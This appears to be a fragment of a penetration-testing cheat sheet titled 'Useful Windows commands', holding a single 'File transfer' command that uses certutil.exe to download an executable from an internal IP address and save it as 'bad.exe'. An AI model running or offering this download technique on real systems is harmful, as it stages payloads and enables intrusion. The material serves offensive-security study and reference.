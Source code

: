 # Useful Windows commands  

## File transfer  

`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`
